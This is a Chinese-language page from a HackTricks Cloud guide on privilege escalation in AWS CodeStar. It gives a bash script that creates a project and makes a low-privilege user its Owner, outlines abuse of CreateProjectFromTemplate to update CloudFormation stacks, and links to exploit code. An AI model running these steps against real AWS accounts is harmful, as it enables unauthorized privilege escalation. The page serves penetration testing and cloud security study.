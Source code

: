 # AWS - Codestar Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Codestar

您可以在以下位置找到有关 codestar 的更多信息：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

通过这些权限，您可以 **滥用 codestar IAM 角色** 通过 **cloudformation 模板** 执行 **任意操作**。请查看以下页面：

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

此技术使用 `codestar:CreateProject` 创建一个 codestar 项目，并使用 `codestar:AssociateTeamMember` 将 IAM 用户设为新 CodeStar **项目**的 **所有者**，这将授予他们 **一个带有额外权限的新策略**。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
如果您已经是**项目的成员**，您可以使用权限**`codestar:UpdateTeamMember`**将**您的角色**更新为所有者，而不是`codestar:AssociateTeamMember`。

**潜在影响：** 提升到生成的codestar策略。您可以在以下位置找到该策略的示例：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **创建新项目：**
* 利用**`codestar:CreateProjectFromTemplate`**操作启动新项目的创建。
* 成功创建后，自动授予**`cloudformation:UpdateStack`**的访问权限。
* 此访问权限专门针对与`CodeStarWorker-<generic project name>-CloudFormation` IAM角色相关联的堆栈。
2. **更新目标堆栈：**
* 使用授予的CloudFormation权限，继续更新指定的堆栈。
* 堆栈的名称通常符合以下两种模式之一：
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* 确切名称取决于所选模板（参考示例利用脚本）。
3. **访问和权限：**
* 更新后，您将获得与堆栈关联的**CloudFormation IAM角色**分配的能力。
* 注意：这并不自动提供完全的管理员权限。可能需要环境中其他配置错误的资源来进一步提升权限。

有关更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
您可以在[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)找到利用代码。

**潜在影响：** 提升到cloudformation IAM角色。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
